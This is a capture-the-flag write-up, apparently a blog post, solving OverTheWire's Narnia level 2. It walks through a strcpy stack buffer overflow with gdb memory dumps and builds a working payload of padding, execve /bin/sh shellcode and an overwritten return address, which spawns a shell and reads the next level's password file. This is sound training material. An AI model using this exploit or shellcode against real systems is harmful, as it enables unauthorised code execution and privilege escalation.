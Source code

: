 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 2 -> 3"
subtitle:   "Write-Up"
date:       2017-02-03 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>

<p>What about another challenge in reverse engineering? Anywhere, anytime! </p>

<h1>Challenge</h1>

<p>As always, let's start from viewing the source code.</p>

{% highlight c %}
int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}

{% endhighlight %}

<p>Okay, now let's run it. </p>

{% highlight text%}
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ ./narnia2 ARGUMENT
ARGUMENTnarnia2@melinda:/narnia$
{% endhighlight %}

<p>As in the source code, we see that if argument is not passed, then usage instructions are printed, otherwise value of argument is printed on the next line. In addition, source code gives us information that char buf is 128 bytes in size. Let's try to trigger the segmentation fault. </p>

{% highlight text %}
ARGUMENTnarnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 140")
Illegal instruction
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 141")
Segmentation fault
{% endhighlight %}

<p>Hmm, that's interesting. After trying different amounts of A letters, I've noticed that by writing 140 of them, we will get <b>Illegal instruction</b> message, but 141 letters end up with our desired <b>Segmentation fault</b>. Maybe gdb will tell us something more? </p>

{% highlight text %}
narnia2@melinda:/narnia$ gdb ./narnia2
(gdb) break *main
Breakpoint 1 at 0x804845d
{% endhighlight %}

<p>Firstly let's investigate the illegal instruction option. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 140")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 140")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGILL, Illegal instruction.
0xf7e3ca00 in __libc_start_main () from /lib32/libc.so.6
(gdb) c
Continuing.

Program terminated with signal SIGILL, Illegal instruction.
The program no longer exists.

{% endhighlight %}

<p>Unfortunately after doing some research I've found out that SIGILL won't help us much. What we have to try is to overwrite the <b>instruction pointer. </b></p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 144")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 144")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
{% endhighlight %}

<p>Luckily, adding only 3 more A's overwrote the pointer. But here comes another problem, what is its address? </p>
<p>We can try to find out by writing around B's at the end. Let's see. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 138 + 'B' * 6")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 138 + 'B' * 6")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0xb7000000	0x9449f175
0xffffd800:	0xb7857a44	0x6da4653e	0x69a15cf3	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8b0:	0x41414141	0x42424242	0x58004242	0x535f4744
{% endhighlight %}

<p>Great! EIP address is 0xffffd8b3. Now we have to find a way to use shellcode from previous challenge. But firstly, let's find its length. </p>

{% highlight text %}
narnia2@melinda:/narnia$ python -c'print(len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"))'
25
{% endhighlight %}

<p>25 bytes. As our string have to be 144 bytes in length, I'll firstly write 112 bytes of A letters, then 25 bytes of our shellcode and then overwrite the EIP with memory address somewhere in the middle of A's. Let's try it out! </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")

(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0x4d000000	0x2bdc9c96
0xffffd800:	0xd596f713	0x775b1954	0x6969a442	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0xc0314141	0x2f2f6850
0xffffd8a0:	0x2f686873	0x896e6962	0x89c189e3	0xcd0bb0c2
0xffffd8b0:	0x40c03180	0x424280cd	0x58004242	0x535f4744
0xffffd8c0:	0x49535345	0x495f4e4f	0x30323d44	0x33323431
0xffffd8d0:	0x45485300	0x2f3d4c4c	0x2f6e6962	0x68736162
0xffffd8e0:	0x52455400	0x74783d4d	0x2d6d7265	0x63363532
0xffffd8f0:	0x726f6c6f	0x48535300	0x494c435f	0x3d544e45
0xffffd900:	0x362e3938	0x36312e34	0x3732312e	0x30333320
0xffffd910:	0x32203434	0x53530032	0x54545f48	0x642f3d59
0xffffd920:	0x702f7665	0x342f7374	0x434c0033	0x4c4c415f

{% endhighlight %}

<p>Great, we can see that even with the shellcode B's overwrote the EIP. Now let's try it with the actuall address - somewhere in the middle of the A letters. Maybe <b>0xffffd863</b>?</p>

{% highlight text %}
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x63\xd8\xff\xff'")
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
{% endhighlight %}

<p>And we've got the password to the next level!</p>

<h1>Conclusion</h1>
<p>The challenge was awesome, but really time consuming. It was worth every minute as I learned a lot from trying out these different ways to finish this level. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>
